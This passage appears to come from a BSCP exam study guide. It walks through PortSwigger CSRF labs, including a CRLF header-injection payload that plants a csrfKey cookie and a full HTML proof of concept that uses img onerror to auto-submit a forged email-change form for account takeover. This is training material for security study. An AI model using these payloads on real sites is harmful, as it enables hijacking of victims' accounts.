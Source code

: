 >This is interactive exploit and in BSCP exam if the stage 1 exploit was non interactive then this can be used to obtain administrator interaction by her clicking on the link to change their password. Note to check the `source code` of the change email page for any additional form id values.  

![csrf referer present](images/csrf-referer-present.png)  

[PortSwigger Lab: CSRF where Referer validation depends on header being present](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-depends-on-header-being-present)  

### LastSearchTerm  

>***Identify*** the CSRF vulnerability where token not tied to non-session cookie, by changing the **csrfkey** cookie and seeing the result that the request is rejected. Observe the **LastSearchTerm** cookie value containing the user supplied input from the search parameter.  

![identify-csrf-non-session-tied.png](images/identify-csrf-non-session-tied.png)  

>Search function has no CSRF protection, create below payload that injects new line characters ```%0d%0a``` to set new cookie value in response, and use this to inject cookies into the victim user's browser.  

```
/?search=test%0d%0aSet-Cookie:%20csrfKey=CurrentUserCSRFKEY%3b%20SameSite=None
```  

>Generate CSRF POC, Enable the option to include an **auto-submit** script and click **Regenerate**. Remove the **auto-submit** script code block and add following instead, and place ```history.pushState``` script code below body header. The **onerror** of the IMG SRC tag will instead submit the CSRF POC.  

```
<img src="https://TARGET.net/?search=test%0d%0aSet-Cookie:%20csrfKey=CurrentUserCSRFKEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
```  

>During BSCP **Exam** set the email change value to that of the exploit server ***hacker@exploit-server.net*** email address. Then you can change the administrator password with the reset function.  

![csrf set cookie poc](images/csrf-set-cookie-poc.png)  

>In the below CSRF PoC code, the hidden csrf value is the one generated by the **change email** function and the csrfkey value in the `img src` is the value of the victim, obtained by logging on as victim provided credentials. not sure in exam but real world this is test to be performed.  

```html
<html>
  <body>
    <script>history.pushState('', '', '/')</script>
    <form action="https://TARGET.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;exploit&#45;0a18002e03379f0ccf16180f01180022&#46;exploit&#45;server&#46;net" />
      <input type="hidden" name="csrf" value="48hizVRa9oJ1slhOIPljozUAjqDMdplb" />
      <input type="submit" value="Submit request" />
    </form>
	<img src="https://TARGET.net/?search=test%0d%0aSet-Cookie:%20csrfKey=NvKm20fiUCAySRSHHSgH7hwonb21oVUZ%3b%20SameSite=None" onerror="document.forms[0].submit()">    
  </body>
</html>
```  
